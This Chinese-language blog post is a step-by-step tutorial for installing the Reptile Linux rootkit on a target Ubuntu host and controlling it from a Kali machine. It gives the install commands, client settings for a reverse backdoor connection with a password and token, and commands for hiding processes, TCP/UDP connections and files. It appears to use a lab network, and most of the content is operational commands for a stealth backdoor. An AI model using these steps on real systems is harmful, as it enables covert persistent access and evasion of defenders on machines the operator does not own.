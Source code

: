 ﻿---
layout: post
title: Reptile Linux rootkit后门
date: 2019-09-19
categories: blog
tags: [后门，linux，rookit]
description: Reptile Linux rootkit后门
---

######安装
######目标机器`ubuntu 192.168.70.140`
- 执行以下命令在目标机器安装reptile
```
apt-get install linux-headers-$(uname -r)
git clone https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./setup.sh install
```
![](https://upload-images.jianshu.io/upload_images/15634342-1348015d40185b65.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
######控制端机器`kali 192.168.70.139`
- 执行以下命令在控制端机器安装reptile
```
apt-get install linux-headers-$(uname -r)
git clone https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
cd bin
./client
```
- 执行以下命令在控制端设置参数,注意`SRCHOST`和`RHOST`都是目标机器
```
set lhost 192.168.70.139
set lport 80
set srchost 192.168.70.140
set srcport 666
set RHOST 192.168.70.140
set RPORT 666
set pass s3cr3t
set token hax0r
set prot tcp
run
```
![](https://upload-images.jianshu.io/upload_images/15634342-c26415273643b53f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/15634342-162aff6a7ef5d04e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
- 成功连接到目标机器的45046，在目标机器上搜索不到该端口的连接，已被隐藏
![](https://upload-images.jianshu.io/upload_images/15634342-ce2824e07557d0a1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
- 其他命令
```
隐藏进程: /reptile/reptile_cmd hide <pid> 
显示进程: /reptile/reptile_cmd show <pid>
隐藏udp: /reptile/reptile_cmd udp <IP> <port> hide 
显示udp: /reptile/reptile_cmd udp <IP> <port> show
隐藏tcp: /reptile/reptile_cmd tcp <IP> <port> hide 
显示tcp: /reptile/reptile_cmd tcp <IP> <port> show
还可以隐藏文件 所有包含 reptile 这个字符的文件会被隐藏，这个字符可以在配置文件中修改。
```
`参考链接:`[http://www.carlstar.club/2019/04/09/rep/](http://www.carlstar.club/2019/04/09/rep/)
















